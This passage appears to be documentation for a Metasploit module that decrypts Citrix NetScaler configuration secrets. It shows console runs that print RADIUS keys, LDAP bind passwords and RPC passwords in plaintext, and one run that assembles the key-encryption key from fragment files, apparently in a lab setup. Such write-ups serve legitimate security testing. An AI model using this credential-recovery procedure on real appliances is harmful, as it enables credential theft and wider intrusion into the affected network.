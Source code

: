 ```
set ns encryptionParams -method AES256 -keyValue 7654526a2f3ceffd877b286a8acece43da700d06133dc985f7ebdeb076135bcb755472e04f5d92aba9f07334eb8e936a58782ce76bb3f6d6e44adf727e8e88d602b8bdae1817d26203fe281a8429574d -encrypted -encryptmethod ENCMTHD_3
[+] Plaintext: AAAAAAXyju437Ecnb/iQpa55uUvOskx7S5hCq5dB4kMq+Lcx6g==
[*] Config line:
add authentication radiusAction UTIL1 -serverIP 10.100.10.13 -serverPort 1812 -radKey f8e4f532e9d4e6bebab169b3be9e77b5c851466b7760c469bd64a15d2e8d3c602025c41372094d06e207789d58b6acb7 -encrypted -encryptmethod ENCMTHD_3
[+] Plaintext: hbZaADYDUmdHv7AhHsAb6eCde2M82m0
[*] Config line:
add authentication ldapAction LDAP -serverName ldap.cesium137.io -serverPort 636 -ldapBase "DC=chainheart,DC=com" -ldapBindDn wiz@cesium137.io -ldapBindDnPassword f5dc75680b925dbd3c0a8154c8fee056bfe77ac774797de3c0867d368bd09c2cdd872a36e15a1f07abf773740e2c8a12 -encrypted -encryptmethod ENCMTHD_3 -ldapLoginName sAMAccountName -groupAttrName memberOf -secType SSL -ldapHostname ldap.cesium137.io
[+] User: wiz@cesium137.io
[+] Pass: 2AxDGAhirQWuuGxFpSq9ehFwny81RSm
[*] Config line:
set ns rpcNode 10.100.10.11 -password 9ec84444b10941dc4222f93b29a75f0aa237ffdcc73a81355bf5d1cf3d80058daaad7ca58e488e54bc3ff3eea8ffd9eb -encrypted -encryptmethod ENCMTHD_3 -srcIP 10.100.10.11
[+] Plaintext: 447a325517739063bbaa414ecf1d9c3
[*] Config line:
set ns rpcNode 10.100.10.12 -password dd5c0c4952509e2fcfaeb238dfc361b79a844df09254087920ee0cf4dc447161bde8491d8a39ded0fa2526cc46e6a00f -encrypted -encryptmethod ENCMTHD_3 -srcIP 10.100.10.11
[+] Plaintext: 447a325517739063bbaa414ecf1d9c3
[*] Config line:
add lb monitor mon_ldaps LDAP -scriptName nsldap.pl -dispatcherIP 127.0.0.1 -dispatcherPort 3013 -password e209865546c3d2e8462e3e7a962252eb6d9e26374163c8d902fc3535cb12638c514765dcea4792eb1e3e6b5e1c1c4cef -encrypted -encryptmethod ENCMTHD_3 -LRTM DISABLED -secure YES -baseDN "DC=chainheart,DC=com" -bindDN wiz@cesium137.io -filter CN=builtin
[+] User: wiz@cesium137.io
[+] Pass: 2AxDGAhirQWuuGxFpSq9ehFwny81RSm
[*] Config line:
add lb monitor mon_ldap LDAP -scriptName nsldap.pl -dispatcherIP 127.0.0.1 -dispatcherPort 3013 -password 4ae7bec92e25d985df315e543b846b2c30346840d8e945f5073832c3e479d60eee581f67d671759ae555210529eaec8d -encrypted -encryptmethod ENCMTHD_3 -LRTM DISABLED -destPort 636 -secure YES -baseDN "DC=chainheart,DC=com" -bindDN wiz@cesium137.io -filter CN=builtin
[+] User: wiz@cesium137.io
[+] Pass: 2AxDGAhirQWuuGxFpSq9ehFwny81RSm
[*] Auxiliary module execution completed
msf6 auxiliary(admin/citrix/citrix_netscaler_config_decrypt) > 
```

Example run against config file using KEK from NetScaler VPX running NS13.0 Build 85.15.nc:

```
msf6 > use modules/auxiliary/admin/citrix/citrix_netscaler_config_decrypt
msf6 auxiliary(admin/citrix/citrix_netscaler_config_decrypt) > set ns_conf /tmp/ns.conf 
ns_conf => /tmp/ns.conf
msf6 auxiliary(admin/citrix/citrix_netscaler_config_decrypt) > set ns_kek_f1 /tmp/F1.key
ns_kek_f1 => /tmp/F1.key
msf6 auxiliary(admin/citrix/citrix_netscaler_config_decrypt) > set ns_kek_f2 /tmp/F2.key
ns_kek_f2 => /tmp/F2.key
msf6 auxiliary(admin/citrix/citrix_netscaler_config_decrypt) > dump

[*] Building NetScaler KEK from key fragments ...
[+] NS KEK F1
[+]      HEX: dd2588bb3cb20dd643216c33489776c78e8c56f13b1301e0984dc80564eea49e
[+] NS KEK F2
[+]      HEX: 45f9e6780a1dc40b6fe75bedf2f6dbb9a86e4315d07313014fe2381c52e44d8f
[+] Assembled NS KEK AES key
[+]      HEX: 54f202b9a94649fd9eaa3f13eab514a5a267f460db0a2393f8b25f321a7d79e0

[*] Config line:
```